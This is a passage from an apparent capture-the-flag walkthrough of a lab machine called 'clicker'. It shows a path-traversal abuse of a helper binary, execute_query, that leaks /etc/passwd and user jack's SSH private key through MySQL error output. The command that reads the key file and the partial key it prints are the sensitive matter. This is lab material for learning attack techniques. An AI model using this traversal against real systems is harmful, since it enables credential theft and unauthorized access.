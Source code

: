     www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    pollinate:x:105:1::/var/cache/pollinate:/bin/false
    sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
    syslog:x:107:113::/home/syslog:/usr/sbin/nologin
    uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
    tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
    landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
    fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    jack:x:1000:1000:jack:/home/jack:/bin/bash
    lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
    _rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
    statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false
    --------------

    ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ' at line 1


I can also get jack's SSH private key:



    www-data@clicker:/opt/manage$ ./execute_query 223 ../.ssh/id_rsa     
    mysql: [Warning] Using a password on the command line interface can be insecure.
    --------------
    -----BEGIN OPENSSH PRIVATE KEY---
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
    ...[snip]...
    LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
    lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
    -----END OPENSSH PRIVATE KEY---
    --------------

    ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1

